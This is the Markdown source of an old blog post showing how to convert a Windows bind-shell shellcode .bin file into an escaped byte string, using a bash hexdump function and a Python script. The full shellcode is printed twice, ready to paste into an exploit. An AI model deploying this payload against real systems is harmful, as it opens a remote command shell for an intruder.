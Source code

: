 ```yaml
---
layout: post
title: "Binary to shellcode"
date: 2013-03-02 18:10:26 -0400
comments: true
categories: howto coding
alias: /2013/03/binary-to-shellcode.html
---
```


The other day I was working on a Windows machine and downloaded a small Windows bind shellcode from [https://code.google.com/p/w32-bind-ngs-shellcode/](https://code.google.com/p/w32-bind-ngs-shellcode/). I wanted to extract the shellcode from the bin file and pop it into my exploit. On Linux, this can be done with the following: 

<!--more-->

``` python
function bin2sc {
    # convert .bin to shellcode
    hexdump -v -e '"\\""x" 1/1 "%02x" ""' ${1}
}
```

Running this prints the shellcode out as one long string: 

```
# bin2sc w32-bind-ngs-shellcode.bin 
\x31\xc9\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x6e\x08\x8b\x7e\x20\x8b\x36\x38\x4f\x18\x75\xf3\x51\x68\x32\x5f\x33\x32\x68\x66\x56\x77\x73\x68\xb7\x8f\x09\x98\x89\xe6\xb5\x03\x29\xcc\x29\xcc\x89\xe7\xd6\xf3\xaa\x41\x51\x41\x51\x57\x51\x83\xef\x2c\xa4\x4f\x8b\x5d\x3c\x8b\x5c\x1d\x78\x01\xeb\x8b\x4b\x20\x01\xe9\x56\x31\xd2\x42\x8b\x34\x91\x01\xee\xb4\x36\xac\x34\x71\x28\xc4\x3c\x71\x75\xf7\x3a\x27\x75\xeb\x5e\x8b\x4b\x24\x01\xe9\x0f\xb7\x14\x51\x8b\x4b\x1c\x01\xe9\x89\xe8\x03\x04\x91\xab\x80\x3e\x09\x75\x08\x8d\x5e\x04\x53\xff\xd0\x57\x95\x80\x3e\x73\x75\xb1\x5e\xad\xff\xd0\xad\xff\xd0\x95\x81\x2f\xfe\xff\x8f\x33\x6a\x10\x57\xad\x55\xff\xd0\x85\xc0\x74\xf8\x31\xd2\x52\x68\x63\x6d\x64\x20\x8d\x7c\x24\x38\xab\xab\xab\xc6\x47\xe9\x01\x54\x87\x3c\x24\x57\x52\x52\x52\xc6\x47\xef\x08\x57\x52\x52\x57\x52\xff\x56\xe4\x8b\x46\xfc\xe9\xca\xff\xff\xff
```

However, the Windows machine I was on didn't have hexdump installed. So I hacked up the following in python that extracts the hexadecimal values from the bin file and prints it out nicely formatted: 

{% gist 11164279 %}

Running the script gives us the following output:

```
C:\ python.exe bin2sc.py w32-bind-ngs-shellcode.bin 
"\x31\xc9\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x6e\x08" +
"\x8b\x7e\x20\x8b\x36\x38\x4f\x18\x75\xf3\x51\x68\x32\x5f\x33" +
"\x32\x68\x66\x56\x77\x73\x68\xb7\x8f\x09\x98\x89\xe6\xb5\x03" +
"\x29\xcc\x29\xcc\x89\xe7\xd6\xf3\xaa\x41\x51\x41\x51\x57\x51" +
"\x83\xef\x2c\xa4\x4f\x8b\x5d\x3c\x8b\x5c\x1d\x78\x01\xeb\x8b" +
"\x4b\x20\x01\xe9\x56\x31\xd2\x42\x8b\x34\x91\x01\xee\xb4\x36" +
"\xac\x34\x71\x28\xc4\x3c\x71\x75\xf7\x3a\x27\x75\xeb\x5e\x8b" +
"\x4b\x24\x01\xe9\x0f\xb7\x14\x51\x8b\x4b\x1c\x01\xe9\x89\xe8" +
"\x03\x04\x91\xab\x80\x3e\x09\x75\x08\x8d\x5e\x04\x53\xff\xd0" +
"\x57\x95\x80\x3e\x73\x75\xb1\x5e\xad\xff\xd0\xad\xff\xd0\x95" +
"\x81\x2f\xfe\xff\x8f\x33\x6a\x10\x57\xad\x55\xff\xd0\x85\xc0" +
"\x74\xf8\x31\xd2\x52\x68\x63\x6d\x64\x20\x8d\x7c\x24\x38\xab" +
"\xab\xab\xc6\x47\xe9\x01\x54\x87\x3c\x24\x57\x52\x52\x52\xc6" +
"\x47\xef\x08\x57\x52\x52\x57\x52\xff\x56\xe4\x8b\x46\xfc\xe9" +
"\xca\xff\xff\xff"
```

Ta da. 
